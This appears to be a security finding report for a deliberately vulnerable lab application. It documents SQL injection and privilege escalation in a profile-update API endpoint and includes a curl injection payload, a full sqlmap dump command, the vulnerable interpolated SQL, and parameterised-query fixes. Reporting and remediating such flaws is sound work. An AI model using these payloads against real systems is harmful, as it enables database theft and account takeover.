


# SQLi-10 — SQL Injection in Update Profile Endpoint

## 1. Vulnerability Name
SQL Injection (Boolean-Based Blind / Error-Based) + Privilege Escalation — `PUT /api/users/profile`

## 2. Brief Description
The parameters `username`, `email`, `bio`, `profile_image`, `background_image`, and `isAdmin` in the profile update request are interpolated directly into a dynamically built `SET` clause without parameterisation. An authenticated attacker can inject SQL through any of these fields. Additionally, the endpoint accepts the `isAdmin` field **without any authorisation check**, allowing any regular user to escalate their own privileges to administrator with a single PUT request.

## 3. Environment & Assumptions
- Application: SMVWA (commit SHA: `7846ecb14448da0f2bc4822d25feda988dc92ad6`)
- Testing tools: 1.10#stable, curl
- User / test context: {"email":"alice@smvwa.local","password":"Alice1234!"}
- Database: PostgreSQL 15
- Endpoint: `PUT http://localhost:3000/api/users/profile`

## 4. Steps to Reproduce (PoC)

### Vulnerable code
`vulnerable/backend/routes/users/profile.js`, line ~46:
```js
const sql = `UPDATE users SET ${updates.join(', ')} WHERE id = ${req.user.userId} RETURNING ...`;
```

### SQLi via `bio` — error-based exfiltration
```bash
COOKIE=$(curl -si -X POST http://localhost:3000/login \
  -H "Content-Type: application/json" \
  -d '{"email":"alice@smvwa.local","password":"Alice1234!"}' \
  | grep -i "set-cookie" | grep -o 'auth=[^;]*')

curl -s -X PUT http://localhost:3000/api/users/profile \
  --cookie "$COOKIE" \
  -H "Content-Type: application/json" \
  -d '{"bio":"test'\''||(SELECT version())--"}'
```

### sqlmap — via `bio` parameter
```bash
sqlmap -u "http://localhost:3000/api/users/profile" \
  --data='{"bio":"test"}' \
  --headers="Content-Type: application/json" \
  --cookie="$COOKIE" \
  --method=PUT \
  -p bio \
  --technique=BE \
  --dbms=PostgreSQL \
  --level=5 --risk=3 \
  --dump \
  --batch
```

## 5. Evidence (Artifacts)


See: [`artifacts/sqlmap_output.txt`](artifacts/sqlmap_output.txt)

## 6. Impact (CIA + Business)
- **Confidentiality:** Data exfiltration via error-based/boolean-based injection in `bio`/`username`.
- **Integrity:** **Critical privilege escalation** — any user can set `isAdmin = true` with a single request. SQL injection in the SET clause could also modify other users' profiles.
- **Availability:** Low.
- **Business impact:** Complete compromise of the authorisation model — every registered user can become an administrator. This is the most severe integrity finding across the entire application.

## 7. Risk Rating (CVSS 3.1)
```
CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:L
Score: 8.3 — HIGH
```

## 8. Recommended Mitigation
```js
// BEFORE (vulnerable) — dynamic SET without sanitisation:
if (username !== undefined) { updates.push(`username = '${username}'`); }

// AFTER (safe) — parameterised with index:
const params = [];
const updates = [];
if (username !== undefined) { params.push(username); updates.push(`username = $${params.length}`); }
if (email !== undefined)    { params.push(email);    updates.push(`email = $${params.length}`); }
// ... etc.
params.push(req.user.userId);
const sql = `UPDATE users SET ${updates.join(', ')} WHERE id = $${params.length} RETURNING ...`;
await pool.query(sql, params);
```

## 9. Remediation Guidance
1. Rewrite the dynamic parameter builder to use fully parameterised queries (see above).
2. Validate each input field (email → regex, bio → max 500 chars, etc.).
3. Ensure the `WHERE id = $N` clause is always bound to `req.user.userId` — prevents modifying another user's profile.
